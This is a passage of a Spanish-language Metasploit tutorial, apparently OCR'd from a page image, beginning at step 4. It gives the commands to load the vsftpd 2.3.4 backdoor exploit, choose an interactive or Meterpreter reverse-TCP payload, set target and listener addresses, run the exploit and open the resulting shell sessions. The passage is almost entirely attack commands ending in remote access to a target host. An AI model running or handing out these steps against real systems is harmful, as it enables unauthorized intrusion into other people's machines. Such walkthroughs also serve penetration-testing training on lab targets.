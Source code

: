 
#### Paso 4: Usar el exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### Paso 5: Ver los payloads compatibles

```bash
show payloads
```

Verás cosas como:

```
cmd/unix/interact
```

---

#### Paso 6: Seleccionar un payload

```bash
set payload cmd/unix/interact
```

O si fuera Windows con Meterpreter:

```bash
set payload windows/meterpreter/reverse_tcp
```

---

#### Paso 7: Configurar dirección de escucha

```bash
set RHOST 192.168.1.105
set LHOST 192.168.1.100  # tu IP
```

---

#### Paso 8: Ejecutar el exploit

```bash
exploit
```

---

#### Paso 9: ¡Acceso!

Si todo fue bien, tendrás acceso a una shell interactiva. Si usaste Meterpreter:

```bash
sessions
sessions -i 1
```
